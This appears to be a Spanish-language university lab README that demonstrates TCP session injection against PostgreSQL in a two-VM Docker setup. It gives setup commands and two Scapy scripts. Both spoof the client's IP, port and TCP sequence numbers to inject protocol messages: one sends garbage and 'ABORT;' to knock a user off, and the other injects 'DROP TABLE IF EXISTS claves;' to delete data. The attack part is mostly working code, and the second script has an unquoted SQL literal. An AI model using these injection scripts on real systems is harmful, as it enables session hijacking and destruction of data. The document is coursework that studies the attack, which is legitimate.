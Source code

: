# PostgreSQL TCP Injection Demo

## Descripción del Proyecto
Este proyecto demuestra cómo realizar inyecciones TCP en conexiones PostgreSQL para ejecutar comandos no autorizados, incluyendo expulsar usuarios y eliminar tablas.

## Contexto Técnico

Scapy es una potente biblioteca Python para manipulación de paquetes de red. En este proyecto, utilizamos Scapy para construir y enviar paquetes TCP personalizados que inyectan comandos SQL en conexiones PostgreSQL existentes.

### Requisitos

- 2 máquinas virtuales Ubuntu

- Docker instalado en ambos sistemas
  
- python3
  
- scapy

```bash

# Comandos de instalación

sudo apt update

sudo apt install docker.io

sudo systemctl enable docker

sudo systemctl start docker

sudo apt install python3

sudo pip install scapy

```

### Servidor PostgreSQL

1. Crear contenedor:

```bash

sudo docker run --name pg-servidor \

-e POSTGRES_USER=carlostarea2 \

-e POSTGRES_PASSWORD=psqlclientel23 \

-e POSTGRES_DB=tarea2_taller \

-p 5432:5432 \

-d postgres

```

2. Verificar conexión:

```bash

sudo docker ps

```

3. Abrir puerto 5432 en el firewall.

### Cliente PostgreSQL

1. Verificar conectividad con el servidor (reemplazar IP según tu entorno):

```bash

ping 192.168.1.90

```

2. Conectar al servidor:

```bash

docker run -it --rm postgres psql \

-h 192.168.1.90 \

-U carlostarea2 \

-d tarea2_taller

```

*Ingresar contraseña cuando se solicite*

## Expulsar usuario
Este script genera trafico basura dirigido al servidor para forzar la desconexión del cliente
```bash
#expulsar_usuario.py
from scapy.all import *
import struct
import time

# Valores REALES extraídos de Wireshark (ajusta estos)
ip_src = "192.168.1.89"     # IP cliente
ip_dst = "192.168.1.90"     # IP servidor
sport = 54678               # Puerto TCP cliente
dport = 5432                # Puerto PostgreSQL
seq_base = 123456789        # Sequence number capturado
ack = 987654321             # Acknowledgment number capturado

# Lista de cargas PostgreSQL (maliciosas o falsas)
consultas = [
    "SOMEGARBAGE",    # pura basura
    "ABORT;",         # comando SQL que puede cerrar sesión
]

# Enviar cada paquete uno por uno
for i, consulta in enumerate(consultas):
    payload = b'Q' + struct.pack("!I", len(consulta.encode()) + 5) + consulta.encode() + b'\x00'
    ip = IP(src=ip_src, dst=ip_dst)
    tcp = TCP(sport=sport, dport=dport, seq=seq_base, ack=ack, flags="PA")
    pkt = ip / tcp / Raw(load=payload)
    print(f"[{i+1}/{len(consultas)}] Enviando: {consulta}")
    send(pkt, verbose=False)
    seq_base += len(payload)  # avanza el número de secuencia TCP
    time.sleep(0.2)  # pausa corta para no congestionar

print("Inyección completada.")
```
Se ejecuta utilizando
```bash
sudo python3 expulsar_usuario.py
```
## Eliminar tabla
Se simula ser un cliente autentico para enviar el comando de DROP TABLE al servidor y así eliminar la tabla creada por el cliente
```bash
#eliminar_tabla.py
from scapy.all import *
import struct
import time

# Valores REALES extraídos de Wireshark (ajusta estos)
ip_src = "192.168.1.89"     # IP cliente
ip_dst = "192.168.1.90"     # IP servidor
sport = 54678               # Puerto TCP cliente
dport = 5432                # Puerto PostgreSQL
seq_base = 123456789        # Sequence number capturado
ack = 987654321             # Acknowledgment number capturado

# Lista de cargas PostgreSQL (maliciosas o falsas)
consultas = [
    DROP TABLE IF EXISTS claves;
]

# Enviar cada paquete uno por uno
for i, consulta in enumerate(consultas):
    payload = b'Q' + struct.pack("!I", len(consulta.encode()) + 5) + consulta.encode() + b'\x00'
    ip = IP(src=ip_src, dst=ip_dst)
    tcp = TCP(sport=sport, dport=dport, seq=seq_base, ack=ack, flags="PA")
    pkt = ip / tcp / Raw(load=payload)
    print(f"[{i+1}/{len(consultas)}] Enviando: {consulta}")
    send(pkt, verbose=False)
    seq_base += len(payload)  # avanza el número de secuencia TCP
    time.sleep(0.2)  # pausa corta para no congestionar

print("Inyección completada.")
```
Se ejecuta utilizando
```bash
sudo python3 eliminar_tabla.py
```
## Conclusiones

1. El protocolo sigue un flujo estructurado y predecible

2. Comunicación binaria eficiente con bajo overhead

3. Seguridad implementada mediante:

- Autenticación SCRAM-SHA-256

- Soporte para TLS 1.3 (PostgreSQL 13+)

4. Compatibilidad con herramientas estándar (psql, pgAdmin, DBeaver)

5. Ideal para entornos distribuidos y sistemas en la nube

## Recursos Adicionales

- [Documentación Oficial del Protocolo](https://www.postgresql.org/docs/current/protocol.html)

- [Docker Hub - Imagen PostgreSQL](https://hub.docker.com/_/postgres)

- [Wireshark - Wiki](https://wiki.wireshark.org/)

- [Comunidad PostgreSQL](https://www.postgresql.org/community/)

## Autores

- Carlos Rodríguez

- Jorge Gonzalez

- Martín Mora

*Universidad Diego Portales - Junio 2025*
